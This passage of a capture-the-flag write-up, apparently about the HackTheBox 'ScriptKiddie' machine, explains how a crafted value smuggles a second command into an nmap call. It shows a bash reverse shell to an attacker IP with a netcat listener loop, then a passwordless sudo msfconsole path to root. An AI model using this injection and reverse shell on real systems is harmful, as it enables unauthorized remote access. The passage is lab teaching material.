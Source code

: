 That creates:

```

nmap --top-ports 10 -oN recon/x 127.0.0.1; ping -c 1 10.10.14.15.nmap x 127.0.0.1; ping -c 1 10.10.14.15 2>&1 >/dev/null

```

The first `ping` will fail because `10.10.14.15.nmap` is not a valid ip. But the second will work, but the output will be all piped to `/dev/null`. A rev shell will get more messed up:

```

oxdf@parrot$ echo "x x x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'" | cut -d' ' -f3-
x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'

```

Becomes:

```

nmap --top-ports 10 -oN recon/x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'.nmap x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1' 2>&1 >/dev/null

```

The first `bash` call will connect back, but then fail because of the `.nmap`. The second would actually work, if you are quick enough to have the `nc` listener receive the first connection, start listening again, and then get the second. Something like `for i in {1..2}; do nc -lvnp 443; done` will work.

## Shell as root

### Enumeration

The first thing I typically check is `sudo`, and it pays off again, as pwn can run `msfconsole` with `sudo` as root without a password:

```

pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole

```

### Shell

On running that, I’ve got a Metasploit terminal as root:
